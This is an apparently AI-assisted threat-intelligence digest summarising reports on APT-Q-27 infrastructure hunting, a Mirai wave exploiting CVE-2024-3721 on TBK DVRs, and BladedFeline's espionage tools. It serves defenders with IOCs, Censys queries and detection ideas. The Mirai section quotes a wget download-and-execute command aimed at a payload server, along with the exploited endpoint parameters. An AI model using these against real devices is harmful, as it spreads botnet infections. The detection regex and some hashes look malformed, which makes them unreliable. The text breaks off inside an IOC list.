


# The Feed 2025-06-11


## AI Generated Podcast

[Spotify](https://open.spotify.com/episode/39Ilf34gwfyfFU4wRoncZW?si=1OBXDeJ8QeilfmcCk_3jqw)

## Table of Contents

- [**APT-Q-27’s Silver Fox Operations: Additional Technical Hunt and Infrastructure Correlation**](#silver-fox-operations): This report details a threat hunt that expanded upon previous research into APT-Q-27's use of the Silver Fox Trojan and Winos 4.0 backdoor by pivoting off network indicators to uncover additional infrastructure.

- [**Analysis of the latest Mirai wave exploiting TBK DVR devices with CVE-2024-3721**](#mirai-wave-exploiting-tbk-dvr): This analysis describes a new Mirai botnet variant exploiting CVE-2024-3721 in TBK DVR devices to deploy ARM32 binaries and details its exploitation method, malware features, and indicators of compromise.

- [**BladedFeline: Whispering in the dark**](#bladedfeline-whispering): This research details the activities of **BladedFeline**, an Iran-aligned APT group believed to be a subgroup of **OilRig**, which targets government officials and organizations in Iraq and the KRG, utilizing various tools like the **Whisper** email backdoor and **PrimeCache** IIS module.

- [**Follow the Smoke - China-nexus Threat Actors Hammer At the Doors of Top Tier Targets**](#follow-the-smoke--china-nexus-china-nexus-threat-actors-hammer-at-the-doors-of-top-tier-targets): This report attributes **ShadowPad** and **PurpleHaze** activity clusters to China-nexus threat actors targeting government entities, media organizations, and IT services, detailing the use of custom malware like ShadowPad and GOREshell, vulnerability exploitation, and ORB infrastructure.

- [**The Evolution of Linux Binaries in Targeted Cloud Operations**](#evolution-of-linux-binaries-cloud): This research discusses the increasing evolution and use of Linux **ELF** malware families, including **NoodleRAT**, **Winnti**, **SSHdInjector**, **Pygmy Goat**, and **AcidPour**, by threat actors specifically targeting Linux-based cloud environments.

## APT-Q-27’s Silver Fox Operations: Additional Technical Hunt and Infrastructure Correlation
### Summary
This report details a threat hunt focused on expanding the known infrastructure used by APT-Q-27, a Southeast Asia-focused threat actor also known as GoldenEyeDog or the Dragon Breath group, which has apparent ties to the broader Miuuti Group. The group's recent campaign involves the distribution of the Silver Fox Trojan and Winos 4.0 backdoor through trojanized software installers and malicious watering hole websites. The investigation specifically leveraged network-based indicators of compromise (IOCs) from a previous report by Qi’anxin to identify additional related command and control (C2) infrastructure and hosts. This strategic intelligence highlights the persistent and evolving nature of this threat actor's operations, emphasizing the importance of continuously mapping their infrastructure to disrupt their activities.

### Technical Details
APT-Q-27 utilizes a multi-stage approach to deliver its payloads. The initial compromise vector involves victims downloading trojanized software installers masquerading as legitimate applications such as ToDesk, Quicklink VPN, and Paper Airplane. These malicious installers are distributed via SEO-optimized watering hole sites designed to mimic authentic software download pages. Once executed, these installers deploy the Silver Fox Trojan and the Winos 4.0 backdoor.

The infection chain involves multi-stage loaders and custom shellcode. Persistence is achieved through techniques including the creation of scheduled tasks and manipulation of antivirus software exclusions to maintain a foothold on compromised systems.

Infrastructure identified as part of these operations includes C2 servers communicating over various ports, such as 8852 and 9090. A technical hunt initiated from a known IP address 143.92.60[.]116, observed communicating on port 25448, revealed additional related infrastructure.

Analysis of network service banners and Autonomous System Numbers (ASNs) proved effective in clustering associated hosts. Hosts in Cluster 1 (including 143.92.48[.]91, 143.92.48[.]82, and 143.92.48[.]96) were hosted under ASN 152194 (CTG Server Limited). These hosts exposed services including HTTP (80), RDP (2218, 23389), UNKNOWN (25448, 47001), MYSQL (3306), WINRM (5985), and NETBIOS (139). A unique RDP certificate common name, "CN=WIN-GJHRHVVTGD1", found on 143.92.48[.]96, served as a pivot point to confirm the association of these IPs. Suspicious files, including an executable named "'”新年度假防骗攻略”.exe" (translated as 'Tips for preventing scams during the New Year holidays') and "suf_launch.exe", were observed communicating with 143.92.48[.]82. Additionally, 143.92.48[.]91 was linked to malicious URLs hxxp://pdmrx[.]top/ and hxxp://tqnnxg[.]top/.

Cluster 2, initiated from IP 134.122.207[.]5, also hosted under ASN 152194 (CTG Server Limited), exposed services such as NETBIOS (139), HTTP (5985), UNKNOWN (18852, 18853), and RDP (23389, 47001/HTTP). Pivoting from the service banner hash on port 18852 and ASN 152194, while including port 18853 in the search, uncovered additional IPs in this cluster, some of which (like 112.213.116[.]91, 202.95.8[.]144, and 202.95.8[.]157) have been previously flagged as malicious or associated with campaigns like Winos 4.0 or ValleyRAT C2.

Cluster 3, starting from IP 120.89.71[.]226, was hosted under ASN 132839 (POWERLINE-AS-AP POWER LINE DATACENTER). Services included UNKNOWN (18852), RDP (50402/RDP), WINRM (5985), and HTTP (47001/HTTP). Combining the service banner hash from port 18852 with the network handle "POWERLINE-HK" or the RDP certificate common name "CN=hk5241" allowed for the discovery of other linked IPs in this cluster. One IP, 120.89.71[.]130, was found to be flagged as malicious and associated with ValleyRAT C2.

The investigation demonstrates the tactic of deploying related infrastructure across different IP ranges and ASNs, often exhibiting similar service banners and configurations. The use of specific, potentially unique, characteristics like RDP certificate common names provides effective pivot points for identifying related hosts.

### Countries
The threat actor is described as Southeast Asia-focused. The identified infrastructure is located in various regions, including Hong Kong (HK), Singapore (SG), Japan (JP), and the United States (US).

### Industries
Specific targeted industries are not mentioned in the provided source. The use of trojanized general-purpose software installers suggests potential opportunistic or broad targeting across various sectors or individuals in the targeted geographic region.

### Recommendations
The report does not explicitly list technical recommendations. However, it implicitly suggests the following:
*   Leveraging network indicators such as service banners, ASNs, and certificate common names in internet-wide scanning tools (like Censys) is an effective method for discovering and correlating threat actor infrastructure.
*   Validating potential infrastructure findings against public threat intelligence sources like VirusTotal can help confirm malicious associations.
*   Expanding threat hunts by pivoting from various IOC types (e.g., file hashes, domains) from initial reports can yield further insights into the actor's operational footprint.

### Hunting methods
The report demonstrates several Censys hunting rules used to identify related infrastructure:

**Censys Rule 1:**
```
services.banner_hashes=”sha256:878a346423e6f81eb05542e0ff0d27755dc7e575ec24ca593505e432c2dc1b0b” and autonomous_system.asn=”152194"
```
**Logic:** This query searches for hosts that exhibit a specific SHA256 hash for their service banner on port 25448 and are located within Autonomous System Number (ASN) 152194. This rule was derived by analyzing the initial IP address (143.92.60[.]116) and hypothesizing that related infrastructure might share similar technical fingerprints and hosting providers.

**Censys Rule 2:**
```
services.tls.certificates.leaf_data.subject.common_name=”WIN-GJHRHVVTGD1"
```
**Logic:** This rule pivots off a unique certificate common name observed on the RDP service of one of the hosts identified in the first cluster (143.92.48[.]96). Threat actors often reuse certificates across their infrastructure, making this a strong indicator for linking related hosts.

**Censys Rule 3:**
```
(services.banner_hashes=”sha256:12bf73cfd7ddd4226fc9f0479b0853227377e7f57e97914644b86f8395c099c8" and autonomous_system.asn=”152194") and services.port=18853
```
**Logic:** This query combines the service banner hash observed on port 18852 of the initial IP in Cluster 2 (134.122.207[.]5) with its ASN (152194). It explicitly includes port 18853, which was noted as also being used by this IP in the original report, to refine the search and find other hosts matching these specific criteria.

**Censys Rule 4:**
```
services.banner_hashes=”sha256:12bf73cfd7ddd4226fc9f0479b0853227377e7f57e97914644b86f8395c099c8" and whois.network.handle=”POWERLINE-HK”
```
**Logic:** This rule utilizes the service banner hash from port 18852 (seen on the initial IP in Cluster 3, 120.89.71[.]226) and combines it with the network handle associated with the hosting provider (POWERLINE-HK). This approach leverages WHOIS information to identify infrastructure potentially managed by the same entity.

**Censys Rule 5:**
```
services.banner_hashes=”sha256:12bf73cfd7ddd4226fc9f0479b0853227377e7f57e97914644b86f8395c099c8" and services.tls.certificates.leaf_data.subject_dn=”CN=hk5241" and autonomous_system.asn=”132839"
```
**Logic:** This comprehensive query combines the service banner hash from port 18852 with the certificate common name "CN=hk5241" (observed on the RDP service of 120.89.71[.]131, an IP in Cluster 3) and the ASN (132839) associated with that cluster. This rule uses multiple distinct characteristics to strongly link hosts belonging to the same operational infrastructure set.

### IOC

**IP Addresses**
```
120.89.71[.]226
43.226.125[.]17
143.92.60[.]116
134.122.207[.]5
143.92.48[.]91
143.92.48[.]96
143.92.48[.]82
43.226.125[.]19
103.46.185[.]73
103.46.185[.]74
134.122.207[.]22
192.253.235[.]154
202.79.172[.]156
202.95.8[.]151
120.89.71[.]131
```

**Domains**
```
pdmrx[.]top
tqnnxg[.]top
```

**File Hashes**
```
sha256:28d9c5f6b214c5dbe7f7e55ed6ed5e82080dea81 (HTTP 80 Response Body Hash)
sha256:878a346423e6f81eb05542e0ff0d27755dc7e575ec24ca593505e432c2dc1b0b (Service Banner Hash 25448)
sha256:12bf73cfd7ddd4226fc9f0479b0853227377e7f57e97914644b86f8395c099c8 (Service Banner Hash 18852)
sha256:5e84ad50a17eb22b2a4d0d791e8087402b95166697ed92a40191fd0efa3d632a ('”新年度假防骗攻略”.exe)
sha256:43c1ac2196297fd7b8af08a38bab39462a3705940fcca67d7cbb695a0f71fa (suf_launch.exe)
```

**Certificate Common Names**
```
CN=WIN-GJHRHVVTGD1
CN=hk5241
```

**Autonomous System Numbers (ASNs)**
```
152194 (CTG Server Limited)
132839 (POWERLINE-AS-AP POWER LINE DATACENTER)
```

**Observed Ports**
```
80
139
2218
23389
25448
3306
47001
5985
8852
9090
18852
18853
50402
```

**Original link:** [https://medium.com/@pteconway/apt-q-27s-silver-fox-operations-additional-technical-hunt-and-infrastructure-correlation-ce26bcbfef06](https://medium.com/@pteconway/apt-q-27s-silver-fox-operations-additional-technical-hunt-and-infrastructure-correlation-ce26bcbfef06)

## Analysis of the latest Mirai wave exploiting TBK DVR devices with CVE-2024-3721
### Summary
This report analyzes a recent campaign involving a variant of the Mirai botnet that specifically targets vulnerable TBK DVR devices. The threat actor is exploiting a known security flaw, CVE-2024-3721, which allows for unauthorized command execution on these devices via a crafted HTTP POST request. This activity is part of a broader trend where automated bots continually scan the internet for vulnerable systems, particularly those running popular services. The strategic intelligence highlights the persistent threat posed by Mirai variants and the critical risk associated with unpatched IoT and embedded devices, emphasizing that vulnerable DVR systems are being actively targeted to expand botnet capacity, primarily for DDoS attacks. Unlike some broader botnet campaigns, this one focuses on devices supporting a specific architecture (ARM32), simplifying the initial infection vector by removing the need for architectural reconnaissance. The observed activity involves a modified Mirai variant incorporating features such as string encryption and anti-analysis techniques.

### Technical Details
The infection chain begins with attackers leveraging CVE-2024-3721 to achieve Remote Code Execution (RCE) on vulnerable TBK DVR devices. This vulnerability is exploited through a specific HTTP POST request directed at the `/device.rsp` endpoint. The request includes URL-encoded parameters that contain a shell command embedded within the `mdb` and `mdc` fields.

The malicious command observed in honeypot logs is a single-line shell script:
```bash
cd /tmp; rm arm7; wget http://42.112.26[.]36/arm7; chmod 777 *; ./arm7 tbk
```
This script executes the following actions sequentially on the compromised device:
1.  `cd /tmp`: Changes the current directory to `/tmp`. This is a common tactic for malware to download and execute payloads in a writable, often volatile, directory.
2.  `rm arm7`: Removes any existing file named `arm7` in the `/tmp` directory, ensuring a clean download of the new payload.
3.  `wget http://42.112.26[.]36/arm7`: Downloads the Mirai ARM32 binary payload from the specified URL and saves it as `arm7` in the `/tmp` directory. The IP address 42.112.26[.]36 serves as the download server for the payload.
4.  `chmod 777 *`: Changes the permissions of all files in the current directory (`/tmp`) to be read, write, and execute by all users. This ensures the downloaded `arm7` binary is executable.
5.  `./arm7 tbk`: Executes the downloaded `arm7` binary with the argument `tbk`. This initiates the Mirai botnet process on the compromised device.

This particular variant of Mirai, based on the original source code, includes several modifications. Notable technical features implemented in this version are:
*   **String Encryption:** Critical strings used by the malware are encrypted using the RC4 algorithm. The RC4 key itself is initially XOR-encrypted. The decrypted RC4 key is identified as `6e7976666525a97639777d2d7f303177`. Decrypted strings are stored in a vector using a custom `DataDecrypted` structure.
*   **Anti-VM and Anti-Emulation Checks:** The malware attempts to detect if it is running within a virtual machine (VMware) or an emulator (QEMU-arm). It achieves this by enumerating processes via the `/proc` filesystem and examining the `cmdline` for mentions of "VMware" or "QEMU-arm".
*   **Execution Path Validation:** The bot checks if its own process is running from one of a hardcoded list of "allowed directories". This serves as another anti-analysis or possibly environmental awareness technique. The list includes common binary paths like `/usr/bin`, `/bin`, `/usr/sbin`, `/sbin`, as well as device-specific paths like `/dvr/bin`, `/dvr/main`, `/mnt/dvr`, etc..

If these anti-analysis checks are passed, the Mirai variant proceeds with its normal execution, preparing the device to receive commands from the botnet operator. The primary objective of such botnets is typically to conduct Distributed Denial of Service (DDoS) attacks. The report notes that persistence may be hindered on some devices if their firmware prevents filesystem modifications.

### Countries
Based on telemetry data, the majority of infected victims are located in:
*   China
*   India
*   Egypt
*   Ukraine
*   Russia
*   Turkey
*   Brazil

### Industries
The source specifically mentions that the targets are "DVR-based monitoring systems" and "TBK DVR devices". While this points to the use case (surveillance/monitoring), it doesn't specify particular industries, as DVRs are used across numerous sectors and in residential settings. The targeting is likely driven by the presence of vulnerable TBK DVR devices exposed to the internet rather than a specific industry focus.

### Recommendations
The report includes recommendations to mitigate this threat:
*   Update vulnerable devices as soon as security patches become available.
*   Consider performing a factory reset on vulnerable devices that are exposed online. This suggests that even if the device was compromised, a factory reset might revert configurations and potentially remove the malware if it resides on a volatile partition or was installed without persistence mechanisms effective across resets.

### Hunting methods
The report primarily details the exploitation method and malware analysis but does not provide specific Yara, Sigma, KQL, SPL, IDS/IPS, or WAF rules. However, based on the technical details, potential hunting methods can be devised:

**Network-based Hunting (e.g., IDS/IPS, WAF, network logs):**
Look for HTTP POST requests targeting `/device.rsp` on potentially vulnerable TBK DVR devices. Specifically, monitor for requests containing the exact parameters `opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=` followed by URL-encoded shell commands.
A generic IDS/IPS signature might look for the URI path and specific parameter names:
```
alert http any any -> any any (msg:"Mirai CVE-2024-3721 Exploit Attempt"; flow:established,to_server; http.method; content:"POST"; http.uri; content:"/device.rsp"; http.uri; content:"opt=sys"; http.uri; content:"cmd=___S_O_S_T_R_E_A_MAX___"; http.uri; content:"mdb=sos"; http.uri; content:"mdc="; http.uri; pcre:"/mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F{1,3}\.{1,3}\.{1,3}\.{1,3}\%2Farm7\%3B%20chmod%20777%20%2A\%3B%20\%2E\%2Farm7%20tbk/U"; classtype:attempted-user; sid:XXXXX; rev:1;)
```
**Logic:** This hypothetical Snort-like rule triggers on an established HTTP POST flow to any destination and port. It specifically checks for the presence of the `/device.rsp` URI path and the distinct parameters (`opt=sys`, `cmd=___S_O_S_T_R_E_A_MAX___`, `mdb=sos`, `mdc=`). A PCRE (Perl Compatible Regular Expression) pattern is used to match the URL-encoded command string structure, including the `cd /tmp`, `rm arm7`, `wget http://[IP]/arm7`, `chmod 777 *`, and `./arm7 tbk` components. This targets the specific observed exploitation attempt.

**Host-based Hunting (e.g., Endpoint Detection and Response - EDR, logging):**
*   Monitor for suspicious process execution, specifically `/tmp/arm7` being executed.
*   Look for shell command sequences originating from network services or web server processes that include `cd /tmp`, `rm arm7`, `wget`, `chmod 777`, and execution of a binary in `/tmp`.
*   Check for the presence of files named `arm7` in the `/tmp` directory.
*   Look for network connections initiated by the `arm7` process.
*   Monitor for attempts by processes to access `/proc/[PID]/cmdline` and check for strings like "VMware" or "QEMU-arm".
*   Monitor for processes running from directories outside the allowed list specified in the malware.

### IOC

**Host-based (MD5 hashes)**
```
011a406e89e603e93640b10325ebbdc8
24fd043f9175680d0c061b28a2801dfc
29b83f0aae7ed38d27ea37d26f3c9117
2e9920b21df472b4dd1e8db4863720bf
3120a5920f8ff70ec6c5a45d7bf2acc8
3c2f6175894bee698c61c6ce76ff9674
45a41ce9f4d8bb2592e8450a1de95dcc
524a57c8c595d9d4cd364612fe2f057c
74dee23eaa98e2e8a7fc355f06a11d97
761909a234ee4f1d856267abe30a3935
7eb3d72fa7d730d3dbca4df34fe26274
8a3e1176cb160fb42357fa3f46f0cbde
8d92e79b7940f0ac5b01bbb77737ca6c
95eaa3fa47a609ceefa24e8c7787bd99
96ee8cc2edc8227a640cef77d4a24e83
aaf34c27edfc3531cf1cf2f2e9a9c45b
ba32f4eef7de6bae9507a63bde1a43aa
```

**IPs**
```
116.203.104[.]203
130.61.64[.]122
161.97.219[.]84
130.61.69[.]123
185.84.81[.]194
54.36.111[.]116
192.3.165[.]37
162.243.19[.]47
63.231.92[.]27
80.152.203[.]134
42.112.26[.]36
```
*Note: 42.112.26[.]36 is the download server for the `arm7` payload. Other IPs are listed as Mirai indicators.*

**Decrypted RC4 Key**
```
6e7976666525a97639777d2d7f303177
```
*Note: This key is for decrypting internal strings within the binary.*

**Original link:** [https://securelist.com/mirai-botnet-variant-targets-dvr-devices-with-cve-2024-3721/116742/](https://securelist.com/mirai-botnet-variant-targets-dvr-devices-with-cve-2024-3721/116742/)

## BladedFeline: Whispering in the dark
### Summary
BladedFeline is an Iran-aligned cyberespionage group that has been operational since at least 2017. The group was discovered by ESET researchers in 2023 following their targeting of Kurdish diplomatic officials with a backdoor known as Shahmaran. Their primary objectives involve compromising and maintaining access to high-ranking officials within the Kurdistan Regional Government (KRG) and the government of Iraq (GOI) for cyberespionage purposes. The motivation behind targeting the KRG likely involves spying on its relationships with Western nations and its oil resources. In Iraq, the activity is probably aimed at countering Western government influence. ESET assesses with medium confidence that BladedFeline operates as a subgroup of OilRig (also known as APT34 or Hazel Sandstorm), an established Iran-aligned APT group. This assessment is supported by code similarities between tools, the presence of known OilRig implants on compromised systems, and overlapping targeting patterns. While focused on the KRG and GOI, BladedFeline has also targeted a regional telecommunications provider in Uzbekistan. The group consistently develops its malware arsenal to ensure persistent and expanded access within targeted organizations.

### Technical Details


BladedFeline's campaigns demonstrate sophisticated tactics, techniques, and procedures (TTPs) for initial access, execution, persistence, defense evasion, credential access, command and control (C2), and exfiltration. The group has maintained access to KRG victims since at least 2017, with initial implants tracing back to OilRig activities from that period. For GOI victims, initial access is suspected to involve exploiting vulnerabilities in public-facing web applications, leading to the deployment of a webshell like Flog.

The group utilizes a diverse toolset:
- **Shahmaran:** This 64-bit backdoor establishes persistence by placing a copy (`adobeupdater.exe`) in the Startup folder. It attempts to blend in by creating a Windows event object named `SysPrep`. C2 communication is unencrypted and uncompressed, using a hardcoded domain (`olinpa[.]com`) and port 80, with checks for port 443. It uses two different User-Agent strings. After checking in, it waits 30 seconds before the next check-in. Operator commands include file and directory operations (get timestamp, move, delete, create), log file manipulation (read, return, delete), and file writing/creation. Command output is sent back using a specific format (`t=<operator_command>&<command_output>`).
- **Whisper:** A 32-bit C#/.NET backdoor that uniquely leverages compromised Microsoft Exchange webmail accounts for C2 by sending and receiving email attachments. Two versions were observed, both using timestomped compilation timestamps for defense evasion. It packages necessary DLLs using Costura. Whisper is deployed by the **Whisper Protocol** dropper, a 64-bit Python binary that writes Whisper and its XML configuration file (containing base64 encoded credentials and settings) to `C:\ProgramData\VeeamUpdate` and establishes persistence via a LNK file in the Startup folder. Whisper logs into the compromised email account, checks for a specific inbox rule (`MicosoftDefaultRules` based on the string "PMO" in the subject, body, or subject/body), and creates it if it doesn't exist. It sends check-in emails every 10 hours with a base64 encoded identifier in the body. Operator commands are fetched from attachments in emails matching the rule, decrypted (base64 decode + AES decrypt using a configured key and 16-byte IV), executed (supporting file operations and PowerShell), and the output is sent back as an email attachment to the sender.
- **PrimeCache:** A passive backdoor implemented as a malicious IIS native module (`HttpModule.dll`), sharing code similarities with OilRig's RDAT. It utilizes a unique request handling method, processing parameters across multiple HTTP requests before triggering an action with a final request containing the command ID 0. Commands are sent in the cookie header. Supported actions include executing commands via `popen`, `CreateProcessW`, or a named pipe (`\\.\pipe\iis`); creating local files; and exfiltrating files. C2 communication employs a combination of RSA and AES-CBC encryption, with parameters/return values AES encrypted and base64 encoded, and the session key RSA encrypted. It statically links the Crypto++ library, a trait shared with RDAT. PrimeCache achieves persistence as it's loaded by the IIS Worker Process (`w3wp.exe`) upon relevant HTTP requests. It utilizes Inter-Process Communication (IPC).
- **Laret and Pinar:** These are 32-bit C#/.NET reverse tunnels. Both exhibit timestomped compilation timestamps. They rely on configuration files in the same directory for critical parameters like C2 IP, ports, and SSH credentials (base64 encoded then hex decoded). Timestomping is also used on file creation dates for defense evasion. If a specified process file exists, they execute it before establishing an SSH connection to the C2 (hardcoded port 22) with port forwarding enabled, and setting up a local listener port for incoming data (sent in the clear). Pinar ensures persistence by registering itself as a Windows service ("Service1"), while Laret does not. Laret was observed being downloaded via PowerShell.
- **Flog:** An ASP.NET webshell (`flogon.aspx`) likely used for initial access on GOI systems. It requires a password matching a specific MD5 hash (`4CC88CE123B0DA8D75C0FE66A39339F6`) and accepts commands via the password field, allowing for directory listing, file creation, file writing, and file deletion. It uses JavaScript webshells.
- **Hawking Listener:** A 32-bit .NET/C# binary (`listner.pdb`) also exhibiting timestomped compilation timestamps. It functions as an HTTP listener, either on a hardcoded victim-specific URL or runtime-provided URLs. It listens for a specific key (`snmflwkejrhgsey`) in the QueryString, executes the associated value using `cmd.exe`, and returns the output. It logs interactions to `log.txt`.
- **P.S. Olala:** A 32-bit .NET binary designed to execute PowerShell scripts. It gains persistence by registering as a Windows service. It executes the PowerShell script located at `%APPDATA%\Local\Microsoft\InputPersonalization\TrainedDataStore.ps1`. This is believed to be part of a persistence chain for other backdoors like Whisper or the reverse tunnels.
- **Slippery Snakelet:** A Python-based backdoor with basic file operations and command execution capabilities. Its hardcoded C2 is `zaincell[.]store`, communicating via URLs containing a base64 encoded victim identifier. C2 responses embed commands within `<code>` tags, which the backdoor extracts and base64 decodes. It uses a specific hardcoded User-Agent string.

BladedFeline utilizes valid accounts, base64 encoding, file deletion, and timestomping to evade defenses. They perform LSASS memory dumps for credential access. C2 communications use various protocols including encrypted channels (AES, RSA), web protocols, standard encoding (base64), and email. The toolset includes capabilities for Ingress Tool Transfer (downloading files) and Exfiltration over C2 or encrypted non-C2 channels (email).

### Countries
- Iraq
- Kurdistan Regional Government (KRG)
- Uzbekistan
- Bahrain (potential historical targeting via Group 2 IIS backdoors)
- Israel (potential historical targeting via Group 2 IIS backdoors, current targeting by OilRig subgroup Lyceum)
- Pakistan (potential historical targeting via Group 2 IIS backdoors)
- Middle East (general OilRig targeting region)

### Industries
- Government (Kurdistan Regional Government and Iraqi government officials and entities)
- Telecommunications (regional provider in Uzbekistan, Middle East generally)
- Chemical (targeted by parent group OilRig)
- Energy (targeted by parent group OilRig)
- Finance (targeted by parent group OilRig)
- Healthcare (targeted by OilRig subgroup Lyceum)

### Recommendations
While the source does not provide a dedicated list of recommendations, based on the observed TTPs, the following security measures are advisable:
- Implement strict monitoring and access controls for public-facing applications to detect and prevent exploitation attempts used for initial access.
- Conduct regular security audits and vulnerability assessments of IIS servers and other web-facing infrastructure to identify and remediate vulnerabilities.
- Deploy endpoint detection and response (EDR) solutions configured to detect process execution patterns associated with scripting languages (PowerShell, Python), command shells (`cmd.exe`), LSASS memory dumps, and suspicious file creations/modifications in sensitive directories.
- Enhance network monitoring to identify connections to known C2 infrastructure (IPs, domains). Monitor for unusual protocols like SSH from standard user machines or unexplained listener ports. Implement deep packet inspection to detect encrypted or encoded data patterns in network traffic, including base64 or hex encoding, and specific C2 indicators like the PrimeCache cookie header or Slippery Snakelet URL patterns.
- Monitor for changes to IIS configuration, particularly the installation or modification of native IIS modules.
- Strengthen security around email accounts, especially those used by high-ranking officials. Monitor for unusual login activity, unauthorized access, and the sending of emails with attachments to external, potentially unknown recipients, especially when using specific subject lines or containing unusual content. Review and enforce strict mailbox rule policies to prevent unauthorized creation of forwarding or filtering rules.
- Implement monitoring for persistence mechanisms, including new or modified LNK files in Startup folders, unauthorized Windows service registrations, and scheduled tasks.
- Utilize security solutions capable of detecting file timestomping and files with anomalous compilation timestamps.
- Regularly review and update threat intelligence feeds with the latest indicators and TTPs associated with BladedFeline and OilRig.

### Hunting methods
The source provides details on TTPs, tools, and indicators that can be leveraged for threat hunting, although no pre-built rules are provided. Hunting queries could focus on:
- **File Presence/Location:** Search for known malware hashes or specific filenames in locations observed during the campaign:
    - `%ROAMINGAPPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\adobeupdater.exe` (Shahmaran)
    - `C:\ProgramData\VeeamUpdate\VeeamUpdate.exe` (Whisper)
    - `C:\ProgramData\VeeamUpdate\Protocol.pdf.exe` (Whisper Protocol)
    - `%APPDATA%\Local\LEAP Desktop\LEAPForm.exe` or `<unknown_location>\wincapsrv.exe` (Laret)
    - `C:\Program Files\LEAP Office\SystemMain.exe` or `C:\Program Files\LEAP Office\winhttpproxy.exe` (Pinar)
    - `%APPDATA%\Local\Microsoft\Windows\Ringtones\RingService.exe` or `%APPDATA%\Local\Microsoft\Windows\Shell\mspsrv.exe` (Sheep Tunneler)
    - `%APPDATA%\Local\Microsoft\InputPersonalization\TrainedDataStore.ps1` (P.S. Olala target script)
    - Check for `LogonUl.exe` and `videosrv.exe` for older OilRig tools.
- **Network Connections:** Look for outbound connections to identified C2 IPs (178.209.51[.]61, 185.76.78[.]177) and domains (olinpa[.]com, zaincell[.]store). Identify processes making these connections.
    - Hunt for SSH connections originating from non-standard systems or processes (Laret, Pinar).
    - Look for network traffic directed at the default Laret/Pinar listener port (9666) or other configured `local_port` values.
    - Monitor web traffic for the PrimeCache cookie header format `F=<command_ID>,<param>;`.
    - Look for web requests targeting `zaincell[.]store` with the `/request/` path and base64 encoded data in the URL.
    - Identify web traffic to the Hawking Listener URL and the presence of the `snmflwkejrhgsey` key in the QueryString.
- **Process Behavior:** Identify processes executing PowerShell scripts from unusual locations like `%APPDATA%\Local\Microsoft\InputPersonalization\`. Hunt for processes dumping LSASS memory. Monitor for the `w3wp.exe` process loading suspicious DLLs or exhibiting unusual outbound network activity.
- **Windows Services:** Hunt for newly created services, especially with names like "Service1" or associated with the paths of Pinar or P.S. Olala.
- **Email Server Logs:** Analyze logs for unusual login attempts, created inbox rules (`MicosoftDefaultRules`), and outgoing emails containing attachments sent to potentially external or unknown recipients, particularly with subjects like "Content" or "Email".
- **Encoded Data Detection:** Employ network or host-based rules to identify base64 or hex encoded strings in locations where C2 communication or malware configuration is expected (e.g., HTTP headers, request bodies, configuration files, email bodies/attachments). Look for specific patterns or lengths.

### IOC
**Hashes**
```
01B99FF47EC6394753F9CCDD2D43B3E804F9EE36
1C757ACCBC2755E83E530DDA11B3F81007325E67
272CF34E8DB2078A3170CF0E54255D89785E3C50
37859E94086EC47B3665328E9C9BAF665CB869F6
3D21E1C9DFBA38EC6997AE6E426DF9291F89762A
